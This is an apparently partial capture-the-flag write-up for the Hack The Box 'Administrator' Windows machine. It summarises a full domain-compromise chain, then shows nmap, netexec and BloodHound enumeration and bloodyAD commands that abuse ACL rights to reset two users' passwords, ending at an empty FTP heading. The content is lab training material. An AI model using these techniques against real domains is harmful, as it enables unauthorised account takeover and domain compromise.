


`Administrator` is a medium-difficulty Windows machine designed around a complete domain compromise scenario, where credentials for a low-privileged user are provided. To gain access to the `michael` account, ACLs (Access Control Lists) over privileged objects are enumerated, leading us to discover that the user `olivia` has `GenericAll` permissions over `michael`, allowing us to reset his password. With access as `michael`, it is revealed that he can force a password change on the user `benjamin`, whose password is reset. This grants access to `FTP` where a `backup.psafe3` file is discovered, cracked, and reveals credentials for several users. These credentials are sprayed across the domain, revealing valid credentials for the user `emily`. Further enumeration shows that `emily` has `GenericWrite` permissions over the user `ethan`, allowing us to perform a targeted Kerberoasting attack. The recovered hash is cracked and reveals valid credentials for `ethan`, who is found to have `DCSync` rights ultimately allowing retrieval of the `Administrator` account hash and full domain compromise.


## Initial Credentials

:::
Machine Information

As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: `Olivia` Password: `ichliebedich`
:::

## Enumeration

### Nmap

```shell
nmap -p- -sC -sV -T4 -oN reports/nmap 10.129.239.4
```

**Output**

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-28 23:09:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
56280/tcp open  msrpc         Microsoft Windows RPC
62137/tcp open  msrpc         Microsoft Windows RPC
62144/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
62149/tcp open  msrpc         Microsoft Windows RPC
62158/tcp open  msrpc         Microsoft Windows RPC
62171/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-28T23:10:48
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m10s

```

### SMB

With Olivia's credentials, I am able to connect to the target, but no valuable folders were found.

```shell
┌──(elodvk㉿kali)-[~/hack-the-box/administrator]
└─$ netexec smb 10.129.239.4 -u Olivia -p 'ichliebedich' --shares
SMB         10.129.239.4    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.129.239.4    445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.129.239.4    445    DC               [*] Enumerated shares
SMB         10.129.239.4    445    DC               Share           Permissions     Remark
SMB         10.129.239.4    445    DC               -----           -----------     ------
SMB         10.129.239.4    445    DC               ADMIN$                          Remote Admin
SMB         10.129.239.4    445    DC               C$                              Default share
SMB         10.129.239.4    445    DC               IPC$            READ            Remote IPC
SMB         10.129.239.4    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.239.4    445    DC               SYSVOL          READ            Logon server share 

```


### Bloodhound

```shell
┌──(elodvk㉿kali)-[~/hack-the-box/administrator]
└─$ bloodhound-ce-python -u olivia -p 'ichliebedich' -d administrator.htb -ns 10.129.239.4 -c All --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
WARNING: DCE/RPC connection failed: [Errno Connection error (10.129.239.4:445)] timed out
INFO: Done in 01M 00S
INFO: Compressing output into 20250728191759_bloodhound.zip
```

#### Bloodhound Analysis

1. Olivia has `GenericAll` permissions over Michael.
    
2. Michael has `ForceChangePermissions` over Benjamin.
    


At this point, we do not find much in bloodhound that we can use to elevate our privileges but again, enumeration is the key, so I am not going to stop until I have enumerated everything, Maybe the things which I currently do not have access to as Olivia, I might get access to as Michael or Benjamin. Like the FTP server?

### Reset Michael

`bloodyAD` is my favourite tool for this task.

```shell
┌──(elodvk㉿kali)-[~/hack-the-box/administrator]
└─$ bloodyAD -d administrator.htb --dc-ip 10.129.239.4 -u olivia -p 'ichliebedich' set password Michael 'Welcome@123'
[+] Password changed successfully!
```


### Reset Benjamin

Just like before, I am going to again use `bloodyAD` to reset Benjamin's password.

```shell
┌──(elodvk㉿kali)-[~/hack-the-box/administrator]
└─$ bloodyAD -d administrator.htb --dc-ip 10.129.239.4 -u michael -p 'Welcome@123' set password benjamin 'Welcome@123'
[+] Password changed successfully!
```

## Revisiting FTP


